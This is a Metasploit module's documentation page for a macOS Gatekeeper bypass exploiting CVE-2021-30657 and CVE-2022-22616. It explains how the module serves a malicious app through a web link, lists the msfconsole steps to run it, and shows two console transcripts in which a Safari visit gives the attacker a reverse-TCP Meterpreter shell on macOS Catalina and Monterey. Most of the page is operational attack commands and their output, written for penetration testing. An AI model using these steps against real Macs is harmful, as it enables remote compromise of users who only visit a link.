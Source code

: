 ## Vulnerable Application

This module exploits two CVEs that bypass Gatekeeper.

For CVE-2021-30657 this module serves an OSX app (as a zip) that contains
no Info.plist, which bypasses gatekeeper in macOS < 11.3.

If the user visits the site on Safari, the zip file is automatically extracted,
and clicking on the downloaded file will automatically launch the payload.
If the user visits the site in another browser, the user must click once to unzip
the app, and click again in order to execute the payload.

For CVE-2022-22616, this module serves a gzip-compressed zip file that
contains an OSX app. If the user downloads the file via Safari, Safari will
automatically decompress the file, removing its `com.apple.quarantine` attribute.
Because of this, the file will not require quarantining, bypassing Gatekeeper on
MacOS versions below 12.3.

## Verification Steps

1. Start `msfconsole`
2. `use exploit/osx/browser/osx_gatekeeper_bypass`
3. `set CVE <cve_num>`
4. `set LHOST <tab>`
5. `set SRVHOST <tab>`
6. `exploit`
7. Visit the URL on a vulnerable version of macOS

## Options

### APP_NAME

Name of the app to be served.

### CVE

The vulnerability to use in the exploit. The default value is the most recent cve (CVE-2022-22616).

## Scenarios

### macOS Catalina 10.15.6

```
msf6 > use exploit/osx/browser/osx_gatekeeper_bypass
[*] No payload configured, defaulting to osx/x64/meterpreter/reverse_tcp
msf6 exploit(osx/browser/osx_gatekeeper_bypass) > set srvhost 192.168.37.1
srvhost => 192.168.37.1
msf6 exploit(osx/browser/osx_gatekeeper_bypass) > set lhost 192.168.37.1
lhost => 192.168.37.1
msf6 exploit(osx/browser/osx_gatekeeper_bypass) > options

Module options (exploit/osx/browser/osx_gatekeeper_bypass):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   APP_NAME  app              no        The application name (Default: app)
   SRVHOST   192.168.37.1     yes       The local host or network interface to listen on. This must be an a
                                        ddress on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT   8080             yes       The local port to listen on.
   SSL       false            no        Negotiate SSL for incoming connections
   SSLCert                    no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                    no        The URI to use for this exploit (default is random)


Payload options (osx/x64/meterpreter/reverse_tcp):

   Name                   Current Setting  Required  Description
   ----                   ---------------  --------  -----------
   LHOST                  192.168.37.1     yes       The listen address (an interface may be specified)
   LPORT                  4444             yes       The listen port
   MeterpreterDebugLevel  0                yes       Set debug level for meterpreter 0-3 (Default output is
                                                      strerr)


Exploit target:

   Id  Name
   --  ----
   0   macOS x64 (Native Payload)


msf6 exploit(osx/browser/osx_gatekeeper_bypass) > run
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 192.168.37.1:4444
msf6 exploit(osx/browser/osx_gatekeeper_bypass) > [*] Using URL: http://192.168.37.1:8080/q670M8fEMu
[*] Server started.
[*] 192.168.37.132   osx_gatekeeper_bypass - Request /q670M8fEMu from Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_6) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/13.1.2 Safari/605.1.15
[+] 192.168.37.132   osx_gatekeeper_bypass - macOS version 10.15.6 is vulnerable
[*] Transmitting first stager...(210 bytes)
[*] Transmitting second stager...(8192 bytes)
[*] Sending stage (810096 bytes) to 192.168.37.132
[*] Meterpreter session 1 opened (192.168.37.1:4444 -> 192.168.37.132:49380) at 2021-04-29 15:21:38 -0500

msf6 exploit(osx/browser/osx_gatekeeper_bypass) > sessions

Active sessions
===============

  Id  Name  Type                 Information                           Connection
  --  ----  ----                 -----------                           ----------
  1         meterpreter x64/osx  space @ spaces-Mac.local (uid=501, g  192.168.37.1:4444 -> 192.168.37.132:
                                 id=20, euid=501, egid=20) @ spaces-M  49380 (192.168.37.132)
                                 ac.local

msf6 exploit(osx/browser/osx_gatekeeper_bypass) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > getuid
Server username: space @ spaces-Mac.local (uid=501, gid=20, euid=501, egid=20)
meterpreter > sysinfo
Computer     : spaces-Mac.local
OS           : macOS Catalina (macOS 10.15.6)
Architecture : x86
BuildTuple   : x86_64-apple-darwin
Meterpreter  : x64/osx
```

### macOS Monterey 12.1

```
msf6 > use exploit/osx/browser/osx_gatekeeper_bypass
[*] No payload configured, defaulting to osx/x64/meterpreter/reverse_tcp
msf6 exploit(osx/browser/osx_gatekeeper_bypass) > set lhost 192.168.140.1
lhost => 192.168.140.1
msf6 exploit(osx/browser/osx_gatekeeper_bypass) > show targets

Exploit targets:

   Id  Name
   --  ----
   0   macOS x64 (Native Payload)
   1   Python payload
   2   Command payload


msf6 exploit(osx/browser/osx_gatekeeper_bypass) > set target 1
target => 1
msf6 exploit(osx/browser/osx_gatekeeper_bypass) > set payload python/meterpreter/reverse_tcp
payload => python/meterpreter/reverse_tcp
msf6 exploit(osx/browser/osx_gatekeeper_bypass) > run
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 192.168.140.1:4444 
msf6 exploit(osx/browser/osx_gatekeeper_bypass) > [*] Using URL: http://192.168.140.1:8080/0sJEWz
[*] Server started.
[*] 192.168.140.133  osx_gatekeeper_bypass - Request /0sJEWz from Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/15.2 Safari/605.1.15
[+] 192.168.140.133  osx_gatekeeper_bypass - macOS version 10.15.7 is vulnerable
[*] Sending stage (39936 bytes) to 192.168.140.133
[*] Meterpreter session 1 opened (192.168.140.1:4444 -> 192.168.140.133:49153 ) at 2022-04-01 17:47:58 -0500

msf6 exploit(osx/browser/osx_gatekeeper_bypass) > 
msf6 exploit(osx/browser/osx_gatekeeper_bypass) > sessions -i -1
[*] Starting interaction with 1...

meterpreter > getuid
Server username: space
meterpreter > sysinfo
Computer     : spaces-Mac.local
OS           : Darwin 21.2.0 Darwin Kernel Version 21.2.0: Sun Nov 28 20:28:54 PST 2021; root:xnu-8019.61.5~1/RELEASE_X86_64
Architecture : x64
Meterpreter  : python/osx
meterpreter >
```
